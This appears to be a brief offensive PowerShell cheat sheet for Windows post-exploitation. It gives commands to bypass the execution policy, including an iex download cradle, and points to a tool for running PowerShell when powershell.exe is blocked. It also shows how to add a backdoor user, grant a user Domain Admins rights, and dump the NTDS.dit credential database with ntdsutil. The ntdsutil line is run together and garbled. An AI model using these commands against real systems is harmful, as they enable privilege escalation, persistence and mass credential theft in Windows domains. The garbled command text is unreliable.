 # ☄ Powershell Commands Cheat Sheet

**Execution Bypass**

* ```
  Set-ExecutionPolicy Unrestricted 
  ./file.ps1
  ```
* ```
  Import-Module script.psm1
  Invoke-FunctionThatIsIntheModule
  ```
* ```
  iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
  ```

**Powershell.exe blocked**

* Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)

Persistence

* ```
  net user username "password" /ADD
  ```
* ```
  net group "Domain Admins" %username% /DOMAIN /ADD
  ```

**Gather NTDS.dit file**

* `ntdsutilactivate instance ntdsifmcreate full C:\ntdsutilquitquit`
